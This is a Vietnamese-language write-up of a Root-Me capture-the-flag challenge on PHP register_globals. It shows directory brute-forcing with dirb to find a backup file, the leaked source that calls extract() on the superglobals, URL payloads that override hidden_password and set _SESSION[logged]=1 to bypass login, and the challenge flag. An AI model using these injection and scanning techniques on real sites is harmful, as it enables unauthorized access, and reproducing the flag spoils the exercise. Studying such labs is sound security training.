




# PHP - register globals

**25 Points - Medium**

**Statement**

It seems that the developper often leaves backup files around...

## Analysis:

Chủ đề challenge là về lỗ hổng trong tính năng [register globals](https://stackoverflow.com/questions/3593210/what-are-register-globals-in-php) của PHP. Trong [document](https://repository.root-me.org/Programmation/PHP/EN%20-%20Using%20register%20globals%20in%20PHP.pdf) của challenge, tính năng này đã bị tắt mặc định từ phiên bản **>= 4.2.0** và đã bị loại bỏ từ phiên bản PHP >= **5.3.0**. *Global variable* là những biến toàn cục trong PHP (a.k.a superglobals) và có thể được set giá trị/chỉnh sửa từ bất kỳ đâu. Có 9 loại chính :

- $GLOBALS
- $_SERVER
- $_GET
- $_POST
- $_FILES
- $_ENV
- $_COOKIE
- $_SESSION
- $_REQUEST

Điều này rất nguy hiểm dẫn đến việc kiểm soát các giá trị của bất kỳ biến nào theo hacker mong muốn, dễ thấy nhất là bằng **URL query parameter**. Trong bài lần này, ta thử tìm kiếm input point có lỗ hổng, giá trị trong trường password không ảnh hưởng gì đến server. Thử đến nơi mà "ít người để ý" đến, là các **session** *(Edge: Developer Tools -> Application -> Cookies)*. Thay đổi giá trị `PHPSESSID` thành `..` xem sao:



Có lỗi xuất hiện, trường này không được nhập ký tự đặc biệt chỉ cho `[a-z] [A-Z] [0-9]`. Và bên server có dùng hàm `session_start()` để mở một phiên (session). Nhưng mà đến đây thì vẫn khá stuck, chưa khai thác được gì. Ta có thể thay đổi giá trị/tạo giá trị biến mới nhưng quan trọng là biến này sẽ ảnh hưởng như thế nào để lấy flag.

Suy nghĩ một hồi thì dùng cách đoán mò thôi :)) . Đề cho thông điệp là `the developper often leaves backup files around`, vậy có thể có đường dẫn của file backup ở đâu đây. Cái này mình sẽ dùng tool `dirb` (Kali Linux) và dùng [PHP wordlist](https://gitlab.com/kalilinux/packages/seclists/blob/b83a756bb2c06f94c03e525326e8480981b58a9c/Discovery/Web-Content/Common-PHP-Filenames.txt).

Vì mình chỉ cần scan những file backup

<p align="center"></p>

Nên wordlist trên hơi "bự". Dùng lệnh sau để trích xuất wordlist mới:

```bash
cat Common-PHP-Filenames.txt| grep "bak" > Common-PHP-Filenames-Backup.txt
```

Sau đó vét các đường dẫn hợp lệ để xem file cần tìm:

```bash
dirb http://challenge01.root-me.org/web-serveur/ch17/ Common-PHP-Filenames-Backup.txt 
```

<p align="center"></p>

Có file hợp lệ tại `http://challenge01.root-me.org/web-serveur/ch17/index.php.bak`. Tải file về ta được source code sau:

```php
<?php


function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}

function display($res){
    $aff= '
	  <html>
	  <head>
	  </head>
	  <body>
	    <h1>Authentication v 0.05</h1>
	    <form action="" method="POST">
	      Password&nbsp;<br/>
	      <input type="password" name="password" /><br/><br/>
	      <br/><br/>
	      <input type="submit" value="connect" /><br/><br/>
	    </form>
	    <h3>'.htmlentities($res).'</h3>
	  </body>
	  </html>';
    return $aff;
}

session_start();
if ( ! isset($_SESSION["logged"]) )
    $_SESSION["logged"]=0;

$aff="";
include("config.inc.php");

if (isset($_POST["password"]))
    $password = $_POST["password"];

if (!ini_get('register_globals')) {
    $superglobals = array($_SERVER, $_ENV,$_FILES, $_COOKIE, $_POST, $_GET);
    if (isset($_SESSION)) {
        array_unshift($superglobals, $_SESSION);
    }
    foreach ($superglobals as $superglobal) {
        extract($superglobal, 0 );
    }
}

if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}
echo $aff;
?>
```

Sơ lược về đoạn code trên, điều kiện mình cần làm để lấy flag ở đoạn code cuối:

```php
if (( isset ($password) && $password!="" && auth($password,$hidden_password)==1) || (is_array($_SESSION) && $_SESSION["logged"]==1 ) ){
    $aff=display("well done, you can validate with the password : $hidden_password");
} else {
    $aff=display("try again");
}
```

## Solution:

### Vector Attack 1 (không thành công):

- Trong điều kiện đầu tiên, `isset ($password) && $password!="" && auth($password,$hidden_password)==1) `

Ta có thể được **authenticated** khi password ta nhập vào bằng với `$hidden_password`. Thì `$_SESSION["logged"]=$res;`, tức là biến `_SESSION[logged]` được set bằng `1` theo như function dưới:

```php
function auth($password, $hidden_password){
    $res=0;
    if (isset($password) && $password!=""){
        if ( $password == $hidden_password ){
            $res=1;
        }
    }
    $_SESSION["logged"]=$res;
    return $res;
}
```

Ở đây có file `config.inc.php` nhưng mình không thể nào lấy nó ra được. Vậy là không thể xác định giá trị của `$hidden_password`. Nhưng mình có thể tận dụng tính năng `register_global` để set lại giá trị của biến `$hidden_password`. Payload:

```
http://challenge01.root-me.org/web-serveur/ch17/?hidden_password=khangtictoc
```
Nhập password là `khangtictoc`.

<p align="center"></p>

Cho dù xác thực thành công nhưng ta không thể in ra giá trị của `$hidden_password` gốc (cái mà ta cần tìm)

### Vector attack 2:

- Trong điều kiện thứ 2 `(is_array($_SESSION) && $_SESSION["logged"]==1 )`

Ta sẽ được **authenticated** nếu `$_SESSION["logged"]==1` và `is_array($_SESSION)` tức là biến `_SESSION` là một mảng (cái này thì cũng auto pass), vậy với vulnerability `register_global` thì mình có thể set lại giá trị của biến `_SESSION["logged"]` thông qua URL luôn. Payload:

```
http://challenge01.root-me.org/web-serveur/ch17/?_SESSION[logged]=1
```

> NOTE: Truyền vào tham số dưới dạng **assciative array** thì không cần double-quote `""`

<p align="center"></p>

> NOTE: Session này đã được lưu lại với `_SESSION[logged]` nên bất kỳ khi nào vào trang web với session này (trong cookie session) thì cũng auto được authenticated.

Flag: **NoTQYipcRKkgrqG**

